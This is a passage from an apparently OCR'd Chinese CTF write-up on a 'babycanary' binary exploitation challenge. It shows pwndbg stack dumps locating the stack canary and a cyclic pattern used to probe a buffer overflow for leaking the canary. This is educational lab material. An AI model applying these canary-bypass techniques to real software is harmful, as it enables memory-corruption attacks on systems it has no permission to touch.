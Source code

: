 得知canary的值在`[rbp - 8]`处，则我们直接查看这里的值

```
pwndbg> telescope $rbp-8
00:0000│      0x7fffffffde38 ◂— 0xca64b11c5d706100
01:0008│ rbp  0x7fffffffde40 —▸ 0x7fffffffde50 —▸ 0x400790 ◂— push   r15
02:0010│      0x7fffffffde48 —▸ 0x40077e ◂— mov    eax, 0
03:0018│      0x7fffffffde50 —▸ 0x400790 ◂— push   r15
04:0020│      0x7fffffffde58 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
05:0028│      0x7fffffffde60 —▸ 0x7fffffffdf38 —▸ 0x7fffffffe2a9 ◂— '/home/syc/Documents/challange/babycanary/babycanary'
... ↓
07:0038│      0x7fffffffde70 ◂— 0x1f7b99608
```

可以得知**Canary**的值就是 **0xca64b11c5d706100**

但是问题是我们发现这题其实并不能使用格式化字符串实现泄露**Canary**的地址，因为它使用的是**Read**函数，并不会在后面添加**“0/”**截断，无法被解析也就无法利用格式化字符串漏洞。我们只能使用栈溢出直接输出**Canary**函数

我们先构造一个长度为**90**的字符串先尝试一下，下一个断点在**0x0000000000400736**(**printf**函数)

```shell
syc@ubuntu:~/Documents/challange$ python pattern.py create 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

然后运行在断点处查看栈结构

```shell
pwndbg> stack 50
00:0000│ rsi rsp  0x7fffffffddb0 ◂— 0x6141316141306141 ('Aa0Aa1Aa')
01:0008│          0x7fffffffddb8 ◂— 0x4134614133614132 ('2Aa3Aa4A')
02:0010│          0x7fffffffddc0 ◂— 0x3761413661413561 ('a5Aa6Aa7')
03:0018│          0x7fffffffddc8 ◂— 0x6241396141386141 ('Aa8Aa9Ab')
04:0020│          0x7fffffffddd0 ◂— 0x4132624131624130 ('0Ab1Ab2A')
05:0028│          0x7fffffffddd8 ◂— 0x3562413462413362 ('b3Ab4Ab5')
06:0030│          0x7fffffffdde0 ◂— 0x6241376241366241 ('Ab6Ab7Ab')
07:0038│          0x7fffffffdde8 ◂— 0x4130634139624138 ('8Ab9Ac0A')
08:0040│          0x7fffffffddf0 ◂— 0x3363413263413163 ('c1Ac2Ac3')
09:0048│          0x7fffffffddf8 ◂— 0x6341356341346341 ('Ac4Ac5Ac')
0a:0050│          0x7fffffffde00 ◂— 0x4138634137634136 ('6Ac7Ac8A')
0b:0058│          0x7fffffffde08 ◂— 0x3164413064413963 ('c9Ad0Ad1')
0c:0060│          0x7fffffffde10 ◂— 0x6441336441326441 ('Ad2Ad3Ad')
0d:0068│          0x7fffffffde18 ◂— 0x4136644135644134 ('4Ad5Ad6A')
0e:0070│          0x7fffffffde20 ◂— 0x3964413864413764 ('d7Ad8Ad9')
0f:0078│          0x7fffffffde28 ◂— 0x6541316541306541 ('Ae0Ae1Ae')
10:0080│          0x7fffffffde30 —▸ 0x40070a ◂— add    byte ptr [rax], al
11:0088│          0x7fffffffde38 ◂— 0x8b5843fb32c04100
12:0090│ rbp      0x7fffffffde40 —▸ 0x7fffffffde50 —▸ 0x400790 ◂— push   r15
13:0098│          0x7fffffffde48 —▸ 0x40077e ◂— mov    eax, 0
14:00a0│          0x7fffffffde50 —▸ 0x400790 ◂— push   r15
15:00a8│          0x7fffffffde58 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
16:00b0│          0x7fffffffde60 —▸ 0x7fffffffdf38 —▸ 0x7fffffffe2a9 ◂— '/home/syc/Documents/challange/babycanary/babycanary'
... ↓
18:00c0│          0x7fffffffde70 ◂— 0x1f7b99608
19:00c8│          0x7fffffffde78 —▸ 0x400770 ◂— push   rbp
1a:00d0│          0x7fffffffde80 ◂— 0x0
1b:00d8│          0x7fffffffde88 ◂— 0x4b03463a62f1fbbf
1c:00e0│          0x7fffffffde90 —▸ 0x4005a0 ◂— xor    ebp, ebp
1d:00e8│          0x7fffffffde98 —▸ 0x7fffffffdf30 ◂— 0x1
1e:00f0│          0x7fffffffdea0 ◂— 0x0
... ↓
20:0100│          0x7fffffffdeb0 ◂— 0xb4fcb945d111fbbf
21:0108│          0x7fffffffdeb8 ◂— 0xb4fca9ffc201fbbf
22:0110│          0x7fffffffdec0 ◂— 0x0
```